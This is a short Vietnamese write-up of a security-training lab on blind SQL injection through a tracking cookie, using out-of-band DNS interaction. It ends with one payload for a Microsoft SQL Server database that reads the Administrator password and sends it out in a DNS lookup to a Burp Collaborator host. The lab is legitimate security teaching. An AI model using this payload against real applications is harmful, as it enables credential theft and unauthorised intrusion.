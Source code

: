 ![alt text](images/55.png)

# Lab: Blind SQL injection with out-of-band interaction

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Truy vấn SQL được thực hiện không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với một miền bên ngoài.

Để giải quyết bài lab, hãy khai thác lỗ hổng SQL injection để gây ra một truy vấn DNS tới Burp Collaborator.

> ## Lưu ý:
> Để ngăn nền tảng Academy bị sử dụng để tấn công các bên thứ ba, tường lửa sẽ chặn các tương tác giữa các bài lab và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator.

Sau khi xác nhận được cách kích hoạt các tương tác ngoài băng tần, bạn có thể sử dụng kênh ngoài băng tần để trích xuất dữ liệu từ ứng dụng có lỗ hổng. Ví dụ:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
